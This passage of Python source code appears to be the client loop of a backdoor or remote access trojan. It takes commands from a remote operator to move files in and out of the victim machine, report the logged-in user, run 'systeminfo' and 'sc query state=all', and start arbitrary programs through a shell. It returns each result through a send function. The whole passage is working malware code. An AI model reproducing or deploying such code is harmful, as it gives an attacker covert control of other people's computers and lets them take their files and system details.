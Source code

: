                 pass
        elif command[:9] == 'download ':
            upload_file(command[9:])

        elif command[:7] == 'upload ':
            download_file(command[7:])

        elif command == 'user':
            try:
                detail = os.getlogin()
                detail = str(detail)
                reliable_send(detail)
            except:
                pass
        elif command == 'info':
            try:
                execute = subprocess.run("systeminfo", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout.decode() + execute.stderr.decode()
                #result = result.decode()
                reliable_send(result)
            except:
                pass

        elif command == 'sc':
            try:
                execute = subprocess.run("sc query state=all", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout.decode()+ execute.stderr.decode()
                #result = result.decode()
                reliable_send(result)
            except:
                pass

        elif command == 'help':
            pass



       # elif command == 'screenshare':
        #    try:
         #       screen_share()
          #  except:
           #     pass
        elif command[:5] == 'start':
            try:
                subprocess.Popen(command[6:], shell=True)
                reliable_send("Program Started")
            except:
                reliable_send("Failed To Start The Program")
